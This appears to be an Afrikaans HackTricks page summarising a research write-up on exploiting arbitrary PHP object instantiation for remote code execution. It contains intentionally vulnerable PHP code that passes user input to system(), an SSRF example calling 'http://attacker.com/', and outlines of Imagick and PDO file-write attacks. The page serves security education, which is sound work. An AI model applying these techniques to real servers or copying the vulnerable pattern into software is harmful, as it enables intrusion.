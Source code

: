 # PHP - RCE wat objekcreasie misbruik: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Dit is basies 'n opsomming van [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Inleiding

Die skepping van nuwe arbitrêre objek, soos `new $_GET["a"]($_GET["a"])`, kan lei tot Remote Code Execution (RCE), soos in 'n [**skrywe**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) uiteengesit. Hierdie dokument beklemtoon verskeie strategieë om RCE te bereik.

## RCE via Aangepaste Klasse of Autoloading

Die sintaksis `new $a($b)` word gebruik om 'n objek te instansieer waar **`$a`** die klasnaam verteenwoordig en **`$b`** die eerste argument is wat aan die konstruktors oorhandig word. Hierdie veranderlikes kan afkomstig wees van gebruikersinsette soos GET/POST, waar hulle moontlik strings of arrays is, of van JSON, waar hulle as ander tipes mag voorkom.

Oorweeg die kode-snippet hieronder:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
In hierdie geval, om `$a` op `App` of `App2` en `$b` op 'n stelselaanroep (bv. `uname -a`) te stel, lei tot die uitvoering van daardie aanroep.

**Outomatiese laai funksies** kan uitgebuit word as daar geen sulke klasse direk toeganklik is nie. Hierdie funksies laai outomaties klasse vanaf lêers wanneer nodig en word gedefinieer met `spl_autoload_register` of `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Die gedrag van outomatiese laai varieer met PHP weergawes, wat verskillende RCE moontlikhede bied.

## RCE via Ingeboude Klasse

Gebrek aan pasgemaakte klasse of outomatiese laaiers, **ingeboude PHP klasse** mag voldoende wees vir RCE. Die aantal van hierdie klasse wissel tussen 100 tot 200, gebaseer op PHP weergawe en uitbreidings. Hulle kan gelys word met `get_declared_classes()`.

Konstruktors van belang kan geïdentifiseer word deur die refleksie API, soos in die volgende voorbeeld en die skakel [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via spesifieke metodes sluit in:**

### **SSRF + Phar Deserialisering**

Die `SplFileObject` klas stel SSRF in staat deur sy konstruktor, wat verbindings na enige URL toelaat:
```php
new SplFileObject('http://attacker.com/');
```
SSRF kan lei tot deserialisering aanvalle in weergawes van PHP voor 8.0 wat die Phar protokol gebruik.

### **Eksploitering van PDO's**

Die PDO-klas konstruktor laat verbindings toe tot databasisse via DSN stringe, wat moontlik lêer skep of ander interaksies moontlik maak:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Weergawes van PHP tot 5.3.22 en 5.4.12 was vatbaar vir XXE-aanvalle deur die `SoapClient` en `SimpleXMLElement` konstruktors, afhangende van die weergawe van libxml2.

## RCE via Imagick Extension

In die analise van 'n **projek se afhanklikhede**, is ontdek dat **Imagick** benut kan word vir **opdrag uitvoering** deur nuwe objek te instansieer. Dit bied 'n geleentheid om kwesbaarhede te benut.

### VID parser

Die VID parser vermoë om inhoud na enige gespesifiseerde pad in die lêerstelsel te skryf, is geïdentifiseer. Dit kan lei tot die plasing van 'n PHP-skaal in 'n web-toeganklike gids, wat Remote Code Execution (RCE) bereik.

#### VID Parser + Lêer Laai

Daar word opgemerk dat PHP tydelik opgelaaide lêers in `/tmp/phpXXXXXX` stoor. Die VID parser in Imagick, wat die **msl** protokol gebruik, kan wildcard in lêerpaaie hanteer, wat die oordrag van die tydelike lêer na 'n gekose ligging vergemaklik. Hierdie metode bied 'n addisionele benadering om arbitrêre lêer skryf binne die lêerstelsel te bereik.

### PHP Crash + Brute Force

'n Metode wat in die [**oorspronklike skrywe**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) beskryf word, behels die oplaai van lêers wat 'n bedienerkragopwelling veroorsaak voordat dit verwyder word. Deur die naam van die tydelike lêer te brute-force, word dit moontlik vir Imagick om arbitrêre PHP-kode uit te voer. Hierdie tegniek is egter gevind om slegs effektief te wees in 'n verouderde weergawe van ImageMagick.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
